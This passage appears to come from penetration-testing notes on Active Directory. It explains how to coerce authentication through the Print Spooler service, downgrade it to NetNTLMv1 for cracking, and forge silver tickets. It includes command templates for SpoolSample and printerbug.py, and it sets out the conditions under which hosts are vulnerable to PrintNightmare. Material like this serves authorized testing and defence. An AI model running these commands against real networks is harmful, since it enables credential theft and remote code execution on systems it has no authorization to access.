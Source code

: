   - If the machine exposing the `SpoolerService` has its `LMCompatibilityLevel`
  attribute set to 2 or lower (which is usually the case for environment with
  `Windows XP` / `Windows server 2003` operating systems), the authentication
  can be downgraded to use the `NetNTLMv1` protocol. `NetNTLMv1` hashes can be
  cracked in order to retrieve the machine account `NTLM` hash, with the
  possibility of cracking `NetNTLMv1` hashes obtained with the challenge
  `1122334455667788` through a comprehensive `rainbow table` usable for free on
  `crack.sh`. The machine account `NTLM` hash can then be used to generate a
  `silver ticket` for the `HOST` service of the machine allowing for remote
  code execution. Refer to the `ActiveDirectory - NTLM capture and relay` and
  `ActiveDirectory - Kerberos Silver Tickets` notes for more information on the
  attack.

The `printerbug.py` Python script, of the `krbrelayx` toolkit, can be used to
call the `SpoolerService` `MSRPC` functions and trigger the authentication
callback.

```
# In order to trigger a Kerberos authentication, the listening host <LHOST_HOSTNAME> should be associated to a Service Principal Names (SPN) in the domain and a valid DNS record
# For more information, refer to the `[ActiveDirectory] Kerberos unconstrained delegation` note

SpoolSample.exe <TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>

printerbug.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
printerbug.py -hashes <LMHASH:NTHASH> [<DOMAIN>/]<USERNAME>@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
```

###### PrintNightmare (CVE-2021-1675)

On unpatched systems with the `Print Spooler` service running and exposed, the
`PrintNightmare` vulnerability (`CVE-2021-1675`) can be leveraged for remote
code execution. The `PrintNightmare` vulnerability basically result in the
execution of an arbitrary `DLL` under `NT AUTHORITY\SYSTEM` privileges on the
remote system.

As of July 2021, [a number of
parameters](https://twitter.com/StanHacked/status/1410922404252168196)
determine if the targeted system is vulnerable to the `PrintNightmare`
vulnerability:
  - Mandatory exposure of the `Print Spooler` service.
  - Application of the related security patches.
  - Even if the remote system is patched, it may still be vulnerable if either:
    - The targeted system is a Domain Controller and the domain principal used
      to make the `RPC` calls is a member of the `Pre-Win 2000 compatibility`
      group.
    - the `HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall`
      registry key is set to `0x1` on the remote system.
    - the `UAC` mechanism is turned off on the remote system (`EnableLUA` set
      to `0x0`).

The [`ItWasAllADream`](https://github.com/byt3bl33d3r/ItWasAllADream) Python
script ([`OffensivePythonPipeline`'s standalone
binary](https://github.com/Qazeer/OffensivePythonPipeline)) can be used to scan
the network for systems vulnerable to the `PrintNightmare` vulnerability:
